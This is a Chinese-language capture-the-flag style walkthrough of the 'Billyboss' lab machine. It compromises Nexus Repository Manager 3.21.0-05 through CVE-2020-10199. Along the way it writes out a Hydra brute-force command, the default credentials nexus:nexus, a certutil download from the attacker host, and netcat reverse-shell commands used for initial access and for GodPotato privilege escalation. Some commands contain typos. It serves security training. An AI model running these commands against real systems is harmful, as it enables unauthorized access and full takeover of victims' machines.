 ```yaml
---
description: Windows / 中等难度 / Nexus Repository Manager OSS 3.21.0-05
---
```


# ✔️ Billyboss

## 建立立足点

### 信息枚举

* 使用Nmap针对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA billyboss 192.168.250.61
```

<figure><img src="../.gitbook/assets/Snipaste_2024-06-22_14-02-58.png" alt=""><figcaption></figcaption></figure>

* 同时也可直接尝试看看目标系统是否有web页面，本例的80端口正运行着一个叫BaGet的应用程序，可做一些常规的信息收集：

<figure><img src="../.gitbook/assets/Snipaste_2024-06-22_14-01-00.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Snipaste_2024-06-22_14-01-28.png" alt=""><figcaption></figcaption></figure>

* 通过Nmap的扫描结果，发现目标还有一个8081的开放端口，也正在运行着HTTP服务，依次查看相关网页内容，确定当前正运行的是Nexus Repository Manager OSS 3.21.0-05的应用程序：

<figure><img src="../.gitbook/assets/4 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/5 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/6 (4).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch扫描一下该端口上还有没有其他的隐藏目录/文件：

<figure><img src="../.gitbook/assets/7 (5).png" alt=""><figcaption></figcaption></figure>

* 发现一个/swagger-ui，看它大小不抱什么希望，果然没什么东西：

<figure><img src="../.gitbook/assets/8 (5).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 因为此时已经获得了应用程序的版本号，查阅公开漏洞库发现了可能可以利用的漏洞脚本：

<figure><img src="../.gitbook/assets/10 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 阅读该脚本后，发现几个需要修改的地方：

<figure><img src="../.gitbook/assets/11 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 但是在之前的信息枚举的过程中完全没有发现任何可利用用户凭证信息，所以决定使用Hydra进行爆破：

1. 先用BurpSuite拦截一下POST表单查看路径和用户名、密码处的格式：

<figure><img src="../.gitbook/assets/12 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

2. 用户名密码处用Base64编码了，在构造hydra命令时应注意用:username=<mark style="color:red;">**^USER64^**</mark>spassw0rd=<mark style="color:red;">**^PASS64^**</mark>：

```bash
# 使用Hydra的爆破时间实在是太长，需要准备一些更好的username和password字典文件
hydra -L /usr/share/secLists/Usernames/Names/names.txt -P /usr/share/SecLists/Passwords/common-credentials/10k-most-common.txt
192.168.250.61 -s 8081 http-post-form '/service/rapture/session:username=^USER64^spassw0rd=^PASS64^:Forbidden‘
```

* 因考虑到Hydra爆破耗时漫长，所以与此同时决定猜测弱口令，简单猜测几次后发现了有效凭证_<mark style="color:red;">**nexus:nexus  😄**</mark>_

<figure><img src="../.gitbook/assets/13 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 此时已具备了可以修改漏洞脚本的基本项，但是还需要上传一个nc.exe程序，用于后续执行一个反弹shell回来：

<figure><img src="../.gitbook/assets/15 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 在Kali机器的对应目录下，存放一个nc64.exe脚本并开启一个简单的服务器：

<figure><img src="../.gitbook/assets/16 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* nc64.exe程序上传成功：

<figure><img src="../.gitbook/assets/17 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/18 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 此时，可再次修改脚本内容，用于执行反弹shell回连到Kali机器上：

<figure><img src="../.gitbook/assets/19 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 但是返回后的信息显示了一个错误信息，我设置的命令被嵌套在好几个函数中：

<figure><img src="../.gitbook/assets/20 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用反斜杠逃逸：

```bash
.\\\\nc64.exe 192.168.45.158 4444 -e cmd.exe
```

<figure><img src="../.gitbook/assets/21 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 监听端口接收到了回连的shell，此时getshell并获得了flag：

<figure><img src="../.gitbook/assets/22 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/23 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本机信息枚举

* 先手工进行简单的信息收集：

<figure><img src="../.gitbook/assets/24 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/25 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 本例中决定使用提权工具GodPotato，但是得先确定目标系统的.NET框架的版本号，得知为4.0版本：

```powershell
reg query "HKEY_L0CAL_MACHINE\S0FTWARE\Microsoft\NET Framework Setup\NDP"
```

<figure><img src="../.gitbook/assets/26 (1).png" alt=""><figcaption></figcaption></figure>

* 下载GodPotato-NET4.exe，然后将工具传到目标系统中：

<figure><img src="../.gitbook/assets/27 (1) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
certutil -split -f -urlcache http://192.168.45.158/GodPotato-NET4.exe
```

<figure><img src="../.gitbook/assets/28 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 上传成功后，执行一下GodPotato-NET4.exe程序，看看是否可以成功执行：

<figure><img src="../.gitbook/assets/29 (1) (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 此时，将GodPotato-NET4.exe程序的\`-cmd\`参数的值修改为调用刚才上传的nc64.exe程序以执行一个反弹shell回连至Kali本机中：

```powershell
.\GodPotato-NEr4.exe -cmd "C:\Users\nathan\Nexus\nexus-3.21.0-05\nc64.exe 192.168.45.158 8888 -e cmd.exe"
```

<figure><img src="../.gitbook/assets/30 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 获得ROOT flag：

<figure><img src="../.gitbook/assets/31 (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例算中等偏难的机器，锁定可利用的漏洞和提权时都不难，但是其实现过程中需要根据实际情况进行修改和变通。

CVE-2020-10199
{% endhint %}
